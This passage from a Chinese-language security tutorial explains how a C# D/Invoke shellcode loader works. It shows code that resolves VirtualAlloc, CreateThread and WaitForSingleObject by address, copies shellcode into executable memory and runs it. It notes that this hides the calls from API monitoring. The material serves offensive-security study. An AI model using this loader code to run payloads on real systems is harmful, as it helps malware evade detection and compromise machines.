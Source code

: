 这是 D/Invoke 调用的关键，有了函数地址，就可以构造函数委托并直接调用。

> 在 C# 中，委托（Delegate）是一种特殊的类型，它定义了方法的签名（即方法的返回类型和参数列表），并可以持有对具有相同签名的方法的引用。委托可以被看作是对函数的封装，允许将方法作为参数传递，或将其赋值给变量。

#### 调用 VirtualAlloc 分配内存

通过 D/Invoke `DInvokeFunctions.GetLibraryAddress` 函数获取 `VirtualAlloc` 函数地址，然后通过 `Marshal.GetDelegateForFunctionPointer` 委托调用 `VirtualAlloc` 函数，分配内存空间以存放 shellcode。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAlloc");
DELEGATES.VirtualAllocRx VirtualAllocRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.VirtualAllocRx)) as DELEGATES.VirtualAllocRx;
IntPtr rMemAddress = VirtualAllocRx(0, (uint)codepent.Length, 0x1000 | 0x2000, 0x40);
```

#### 将 shellcode 复制到分配的内存并创建线程执行

使用 `Marshal.Copy` 将 shellcode 复制到之前通过 `VirtualAlloc` 分配的内存中。然后，通过 D/Invoke 调用 `CreateThread` 函数创建一个新线程，线程的入口点是 shellcode 的内存地址，从指定内存地址开始执行 shellcode。

```plain
Marshal.Copy(codepent, 0, (IntPtr)(rMemAddress), codepent.Length);
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateThread");
DELEGATES.CreateThreadRx CreateThreadRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.CreateThreadRx)) as DELEGATES.CreateThreadRx;
hThread = CreateThreadRx(0, 0, rMemAddress, pinfo, 0, ref threadId);
```

#### 等待线程结束

最后通过 `DInvokeFunctions.GetLibraryAddress` 获取 `WaitForSingleObject` 函数的地址并转换为委托，接着通过 D/Invoke 调用 `WaitForSingleObject` 函数等待 shellcode 执行完成的线程结束。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WaitForSingleObject");
DELEGATES.WaitForSingleObjectRx WaitForSingleObjectRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.WaitForSingleObjectRx)) as DELEGATES.WaitForSingleObjectRx;
WaitForSingleObjectRx(hThread, 0xFFFFFFFF);
```

> 在 D/Invoke 场景中，委托是一种允许程序动态调用任意函数地址的机制。通过这种方式，可以在不直接链接到函数的情况下执行其代码，增加了代码的灵活性和隐蔽性，可以看到 D\\Invoke ShellcodeLoader 的 API 调用未被 API 监控程序捕获：

[![](assets/1710900063-4fe6d47caea303a870eb19bdd79b5037.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301231042-deccef46-d7dd-1.png)
